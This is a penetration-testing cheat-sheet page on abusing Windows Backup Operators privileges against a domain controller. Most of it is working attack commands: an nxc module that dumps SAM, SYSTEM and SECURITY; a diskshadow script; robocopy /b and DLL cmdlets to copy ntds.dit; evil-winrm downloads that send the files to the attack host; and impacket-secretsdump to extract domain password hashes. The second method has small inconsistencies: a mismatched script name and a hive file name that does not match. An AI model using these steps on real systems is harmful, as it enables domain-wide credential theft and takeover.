 # Backup Operators

## Information

Backup Operators can **back up and restore all files on a computer**, including OS files, regardless of the permissions that protect those files. Because members of this group can replace files on DCs, they're considered **service administrators**.

> Well known SID/RID: `S-1-5-32-551`.

<table><thead><tr><th width="205">Privilege</th><th>Description</th></tr></thead><tbody><tr><td><a href="https://learn.microsoft.com/en-us/windows/device-security/security-policy-settings/back-up-files-and-directories">SeBackupPrivilege</a></td><td>Allows us to create backups of any files, whilst not restoring their permissions, which equals to <strong>arbitrary read access</strong>.</td></tr><tr><td><a href="https://learn.microsoft.com/en-us/windows/device-security/security-policy-settings/restore-files-and-directories">SeRestorePrivilege</a></td><td>Allows us to <strong>overwrite legitimate executable files</strong> with versions that include malicious software used for <strong>privilege escalation</strong>.</td></tr></tbody></table>

## Exploitation

{% tabs %}
{% tab title="nxc" %}
If the controlled user has the `SeBackupPrivilege`, it can dump `SAM`, `SYSTEM`, `SECURITY` and therefore the `NTDS.dit` on the target system. No admin privs needed!

```bash
nxc smb <target-ip> -u <user> -p <pass> -M backup_operator
```
{% endtab %}

{% tab title="Diskshadow" %}
Create a [**diskshadow**](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/diskshadow) script from the attack host to expose the `c:` drive:

```bash
# Create a diskshadow script
nano diskshadow_script
# List its content
cat diskshadow_script
set context persistent nowriters
add volume c: alias random
create
expose %random% z:
# Convert file into a Windows-compatible format
$ sudo unix2dos diskshadow_script
unix2dos: converting file diskshadow_script to DOS format...
```

Transfer the script to the target host and execute the following steps. In the example below, `evil-winrm` is used to transfer the files between the attack and the target host, via its `upload` and `download` methods:

```powershell
# Move within a writeable directory
cd c:\windows\temp
# Upload the diskshadow script
upload diskshadow_script
# Expose the shadow copy
diskshadow /s diskshadow_script
# Copy the ntds.dit database
robocopy /b z:\windows\ntds . ntds.dit
# Copy the system.hive file
reg save hklm\system c:\windows\temp\system.hive
# Download both files
download ntds.dit
download system.hive
```

Dump the `ntds.dit` from the attack host:

{% code overflow="wrap" %}
```bash
impacket-secretsdump -ntds ntds.dit -system system.hive LOCAL | grep Administrator
```
{% endcode %}

For an example of the above method check [here](../../../boxes/hard/blackfield.md#exfiltrating-victory).
{% endtab %}

{% tab title="DLLs" %}
Download the `SeBackupPrivilegeUtils.dll` and `SeBackupPrivilegeCmdLets.dll` from [here](https://github.com/giuliano108/SeBackupPrivilege) on the attack host and transfer them to the target along with the diskshadow script found on the previous tab (on the example below `evil-winrm` is used):

```powershell
# Move to a writeable directory
cd C:\Temp
# Upload files
upload diskshadow_script
upload SeBackupPrivilegeUtils.dll
upload SeBackupPrivilegeCmdLets.dll
# Import DLLs into memory
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
# Expose the shadow copy
diskshadow /s raj.dsh
```

Unlike [Method 1](backup-operators.md#method-1), this time we will be using the `Copy-FileSebackupPrivilege` cmdlet (part of the DLL files) to copy the `ntds.dit` file from the `z:` volume to the `Temp` directory:

```powershell
# Copy ntds.dit to Temp
Copy-FileSebackupPrivilege z:\Windows\NTDS\ntds.dit C:\Temp\ntds.dit
# Copy system.hive
reg save hklm\system c:\Temp\system
# Exfiltrate files
download ntds.dit
download system
```

Dump the `ntds.dit` from the attack host:

{% code overflow="wrap" %}
```bash
impacket-secretsdump -ntds ntds.dit -system system.hive LOCAL | grep Administrator
```
{% endcode %}
{% endtab %}
{% endtabs %}
